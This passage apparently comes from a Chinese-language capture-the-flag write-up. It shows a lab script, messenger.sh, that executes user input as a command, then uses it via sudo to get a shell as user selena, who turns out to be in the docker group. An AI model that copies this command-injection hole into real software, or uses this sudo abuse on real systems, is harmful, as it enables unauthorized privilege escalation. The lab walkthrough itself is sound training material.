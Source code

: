 `messenger.sh`内容

```bash
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""
```

尝试获得到selena用户的shell

```bash
sudo -u selena /home/messenger.sh
```

```bash
Welcome to linux.messenger


ariana:
selena:
ftpuser:

Enter username to send message : 1

Enter message for 1 :bash

Sending message to 1 
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
whoami
selena
```

### docker利用提权

发现selena用户在docker组内

![image-20240526173324595](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240526173324595.png)
